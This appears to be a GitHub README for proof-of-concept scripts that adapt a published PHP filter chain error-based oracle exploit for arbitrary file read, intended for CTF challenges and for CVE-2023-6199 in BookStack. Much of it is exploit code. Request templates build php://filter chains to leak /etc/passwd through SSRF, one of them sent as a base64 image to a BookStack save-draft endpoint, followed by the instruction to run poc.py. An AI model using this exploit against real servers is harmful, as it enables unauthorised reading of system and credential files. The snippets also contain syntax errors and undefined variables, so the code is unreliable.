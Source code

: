# php_filter_chain_oracle_poc
## Overview

The Synacktiv team published an in-depth research article, *[PHP Filter Chains: File Read from Error-Based Oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)*, initially disclosed at DownUnder CTF 2022. This research was based on a challenge by `@hash_kitten`, where players were tasked with leaking the `/flag` file from a vulnerable PHP-based infrastructure using **error-based oracles**.

Rather than diving into the deep technical internals (which can be reviewed in the **PoC comments**), this guide presents a **Procedural-Oriented Programming (POP) adaptation** of Synacktiv’s original Object-Oriented Programming (OOP) exploit [(available here)](https://github.com/synacktiv/php_filter_chains_oracle_exploit).

This POP-based approach makes it easier to understand the attack’s step-by-step execution, allowing for **customization of key parameters** when adapting the exploit with just one script, especially for CTF challenges.

- This repository includes two Proof-of-Concept (PoC) scripts:
  - **`poc.py`** – The **standard version**, structured with wrapped functions that cleanly separate each phase of the exploit.
  - **`poc_procedure.py`** – A **more procedure-oriented** approach, specifically designed for **CTF scenarios**, allowing step-by-step customization of the exploitation process.

## Scenarios

PHP filter chain exploits typically require the following attack primitives for **Arbitrary File Read**:

### 1. LFR via SSRF

- **Objective:** Exploiting Server-Side Request Forgery (SSRF), so that we can interact with the server using URLs and PHP stream wrappers (`php://filter`).
- **Example:** CVE-2023-6199 in [BookStack](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/) demonstrates **Local File Read (LFR) via SSRF**.

### 2. Oracle Recovery 

- **Objective:** Capture server responses from oracle-based exploits.
- **Tooling:** Wireshark, tcpdump, or BurpSuite to inspect HTTP responses.
- **Example:** A classic CTF challenge demonstrating this method is available [here](https://github.com/4xura/Bianry4CTF/blob/main/Labyrinth/misc/misc_php_filter_chain_oracle.zip).

## Using the PoC

Before executing the PoC, you need to **customize the `req()` function** to define how the exploit interacts with the target server. Because the specific request method (GET/POST/other) and SSRF entry point will vary depending on the scenario.

A basic example: sending the filter chain via a GET request:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    import requests
    url     = f'http://example.com/ssrf.php?url={chain}'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Cookie"    : "sessionid=abcdefg123456",
    }
    response = requests.get(url=url, headers=headers=headers)
    
    """
    We send the requests and verify the responses
    If status_code == 200, returns False and stop brute forcing, 
    while we should continue when the server returns 500 (True)
	"""
    return response.status_code == 500
```

To exploit [CVE-2023-6199](https://nvd.nist.gov/vuln/detail/CVE-2023-6199), the `req()` function can be defined for example:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
	# Base64 encode the filter embedded inside an <img> tag 
    import base64
    chain_b64 = base64.b64encode(filter_chain.encode("ascii")).decode("ascii")
    html = f"<img src='data:image/png;base64,{chain_b64}'/>"  
    data = {
        "name":"axura", 
        "html": html,
    }
	
    # Send PUT requests to BookStack server 
    import requests
    target = 'https://bookstack.example.com/ajax/page/8/save-draft'
    try:
        response = session.put(
                target,
                data=data,
            )       
    	return response.status_code == 500
    
    except requests.exceptions.ConnectionError::
        print("[-] Could not instantiate a connection")
        exit(1)
```

Once the `req()` function is properly configured, simply execute the script with:

```sh
python3 poc.py
```

If something went wrong (which is possible due to special request data conversion, base64 output filtering logic, or unexpected server responses), use the comments in the scripts to debug the exploit process.
